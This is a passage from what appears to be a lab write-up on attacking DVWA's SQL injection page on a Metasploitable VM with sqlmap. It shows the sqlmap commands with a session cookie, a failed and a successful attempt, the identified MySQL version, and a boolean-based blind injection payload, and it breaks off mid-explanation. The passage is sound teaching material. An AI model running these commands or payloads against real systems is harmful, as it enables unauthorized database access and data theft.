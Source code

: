 - Run `sqlmap` to detect and exploit the injection:
    ```bash
    sqlmap -u "http://<metasploitable_ip>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your_session_id; security=medium" --batch --banner
    ```
- Or to save to txt file in shared folder, e.g.: 
    ```bash
    sqlmap -u "http://<metasploitable_ip>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your_session_id; security=medium" --batch --banner > /mnt/KaliShare/sqlmap_output.txt
    ```

- 1st attempt: 
    - failed with response: 
        ```
        [WARNING] GET parameter 'id' does not appear to be dynamic
        [WARNING] heurestic (basic) test shows that GET parameter 'id' might not be injectable
        ```
    - See file [sqlmap_output1.txt](./reports/sqlmap_output1.txt) 

    - Was redirected to the login page
    - It could not analyze the response properly, so it gave up
        - Means I was not authenticated during the test, assuming because of timeout

- 2nd attempt: 
    - Tried again and found root cause of previous problem: as the long session cookie had to written in the command manually, I had written one character as 'O' instead of '0'.  

    - Successfully confirmed that the vulnerable input is the `id` parameter in the URL's query string:

        | Outcome               | Explanation                                                                                        |
        | --------------------- | -------------------------------------------------------------------------------------------------- |
        | 🟢 Injection Found    | `id` is confirmed injectable using **4 techniques**: boolean-based, error-based, time-based, UNION |
        | 🟢 DBMS Identified    | `MySQL 5.0.51a-3ubuntu5` running on Ubuntu 8.04                                                    |
        | 🟢 Banner Retrieved   | `banner: '5.0.51a-3ubuntu5'` — important for finding exploits                                      |
        | 🟢 All results logged | Output saved to: `/home/kali/.local/share/sqlmap/output/192.168.0.11`                              |

    - See file [sqlmap_output2.txt](./reports/sqlmap_output2.txt) 
    
    **The 4 Injection Techniques Explained:** 
    
    1. Boolean-Based Blind Injection
        ```
        Type: boolean-based blind
        Title: Boolean-based blind - Parameter replace (original value)
        Payload: id=(SELECT (CASE WHEN (7406=7406) THEN 1 ELSE (SELECT 1864 UNION SELECT 1238) END))&Submit=Submit
        ```

        🔹 What it means:
        - The server doesn't directly return SQL results (like user data), but it responds differently based on a true or false condition in the SQL.
        - SQLmap changes the `id` to a logic test like:
